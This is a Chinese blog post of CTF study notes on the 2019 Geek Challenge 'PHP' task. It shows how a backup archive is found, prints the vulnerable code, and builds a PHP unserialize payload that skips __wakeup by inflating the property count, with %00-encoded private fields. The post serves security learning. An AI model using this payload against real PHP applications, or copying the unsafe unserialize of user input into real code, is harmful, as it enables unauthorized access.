









<!--yml
category: 未分类
date: 2022-04-26 14:51:51
-->

# CTF学习笔记——[极客大挑战 2019]PHP_Obs_cure的博客-CSDN博客

> 来源：[https://blog.csdn.net/obs_cure/article/details/109404404](https://blog.csdn.net/obs_cure/article/details/109404404)

## 一、[极客大挑战 2019]PHP

##### 1.题目


题目是一只可爱的猫猫

##### 2.解题步骤

提示备份，因此访问一下index.php~

失败力，访问一下bak呢

换个思路 访问一下flag.php

竟然没有拒绝访问，看来是有这个文件，继续访问flag的备份试试


是我年轻了…看writeup吧~
提示要字典爆破目录…这里先直接抄近路了，以后要学习一下字典爆破目录，直接访问www.zip


flag.php

```
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?> 
```

class.php

```
<?php
include 'flag.php';

error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?> 
```

index.php只贴出来一部分

```
<?php
	include 'class.php';
	$select = $_GET['select'];
	$res=unserialize(@$select);
?> 
```

首先试一下备份的flag，不出意料的木大了，还是老老实实看代码吧！

一句一句看，首先是传参的`@$select`。$select 是php变量，前面的@是用来抑制错误显示的，添加这个只是为了让浏览者不看到，不友好的页面，并不能抑制住错误，只能抑制显示错误。
第二是`unserialize()`。其含义为对单一的已序列化的变量进行操作，将其转换回 PHP 的值。

这里PHP水平实在是不过关，但可以确定的是select对象是一个class.php中的name类，在select被实例化后会调用相应的函数。
继续看class.php中的源码，`__construct()`和`__destruct()`相当于是构造和析构函数，分别在对象被实例化和对象被销毁的时候被调用。而`__wakeup()`和`__sleep()`是一对方法，分别是在对象序列化和反序列化的时候调用。
以上四个方法，名字前面都带有__两个下划线，类似这种的被称为魔术方法。

因此理一下逻辑关系，在index.php下面select对象被创建，然后执行了`__construct()`和`__destruct()`方法后，`unserialize(@$select);`又调用了`__wakeup()`方法。而php的特性，在请求结束后，也会自行销毁对象。

再返回class.php中看，在对象被销毁的时候，如果username=admin且password=100的时候才会显示flag。但明显中间会调用一次`__wakeup()`把username改掉。因此需要绕过`unserialize(@$select);`

在查阅相关资料后，得到了`__wakeup()`绕过的方式，为：
**当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。**

这里先贴一下师傅的代码，便于观察name类中的属性。

```
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?> 
```


因此构造payload:`?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}`
在上面的payload中，有两点需要注意。

1.  在把username和password传入。在payload前面大括号前面的数字，代表对象的属性数。原对象是2，这里改成3，传递的属性大于原对象属性，因此绕过了`__wakeup()`。
2.  在Name和username前面有\0前缀，这与php的序列化方式有关。但在url提交payload的时候使用\0会被当成空白符丢失。因此要讲\0替换成%00。

重新构造payload:`?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
得到flag


##### 3.总结

1.  PHP真的很重要…看代码太吃力了…
2.  看wp的时候，师傅的扫目录的脚本网站炸了，需要找一个备着…

##### 4.参考资料